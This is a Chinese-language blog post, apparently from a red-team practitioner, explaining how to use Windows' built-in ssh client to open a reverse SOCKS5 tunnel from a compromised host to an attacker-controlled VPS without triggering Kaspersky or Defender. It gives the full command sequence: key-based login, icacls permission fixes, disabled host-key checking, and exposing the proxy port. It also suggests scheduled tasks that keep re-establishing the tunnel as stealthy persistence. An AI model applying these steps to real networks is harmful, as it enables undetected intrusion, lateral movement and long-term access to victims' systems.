




¶前言
如今 socks5 代理非常多，frp,iox 等，但就是因为众所周知，导致被杀软杀的体无完肤
之前发过一次无参数版 frp，在linux上免杀效果还不错，win defender都过不去
iox 自己编译能免杀一部分杀软，如卡巴个人标准版，进程类似这样 avp.exe <=> Kaspersky
但目前遇到卡巴服务器版，或者说是数据中心版，自编译 iox 还是被杀，进程类似这样 kavfswp.exe <=> Kaspersky Security for Windows Server processes
急需一种新型免杀 socks5 代理（也许并不新🤡）
¶ssh socks5
现在新版windows，win10,win11 均自带ssh，cmd 下直接输入 ssh 即可使用
ssh 命令除了登陆外还有三种代理功能：
正向代理（-L）：相当于 iptable 的 port forwarding
反向代理（-R）：相当于 frp 或者 ngrok
socks5 代理（-D）：相当于 ss/ssr
在实际环境中基本只用反向代理 -R，ssh 的动态转发会在远程创建一个监听端口，并且将请求到该端口的流量全部转发到本地端口上，从而实现代理的功能
1 | ssh -NR 1080 user@vps |
-C 请求会话间的数据压缩传递。对于网络缓慢的主机，压缩对连接有所提升。但对网络流畅的主机来说，压缩只会更糟糕。
-q 静默模式。大多数警告信息将不输出。
-N 明确表示不执行远程命令。仅作端口转发时比较有用
使用上述命令后会交互输入user账户密码，之后会在 vps 上开启1080端口
在 vps 上直接借助 proxychains curl cip.cc 即可验证代理成功
¶ssh 代理实战
¶1. 交互
实战场景绝大多数都是不可交互的，所以首先需要解决的是密码交互问题
密码交互可以使用私钥登录解决
1 | useradd -m user |
那么命令变为
1 | ssh -NR 1080 user@vps -i C:\programdata\id_rsa |
本来按照原理应该是没问题的，但是win会报错，提示权限太open 😂，并且继续交互输入密码

那就给她权限搞低点，linux chmod 400 id_rsa，但是下载回来发现还是不能用
查询 stackoverflow找到win解决方案
username使用shell whoami结果完整填入
1 | icacls C:\programdata\id_rsa /inheritance:r |

¶2. 忽略检查
首次使用ssh连接新机器，会交互输入yes

使用-o StrictHostKeyChecking=no不检查，则命令变为
1 | ssh -NR 1080 user@vps -i C:\programdata\id_rsa -o StrictHostKeyChecking=no |
¶3. 端口开放位置
查询端口发现socks端口开放在127.0.0.1上

那这样只能使用proxychains来实现代理，无法使用win proxifier 进行代理
尝试命令中加入0.0.0.0，并不生效
1 | ssh -NR 0.0.0.0:1080 user@vps -i C:\programdata\id_rsa -o StrictHostKeyChecking=no |
修改vps配置文件解决
1 | vim /etc/ssh/sshd_config |

至此所有问题已全部解决，可在 shell 不上传程序实现 socks5 代理（私钥除外🙃）
¶总结
该方法适用于win10及其以上机器，ssh为win自带程序，实现免杀
可当作一个潜伏加固使用，计划任务定期反弹，但这样有一个缺点就是vps无需启动程序监听，到点会自动反弹回来，若不手动kill，程序驻留时间长，有被发现的风险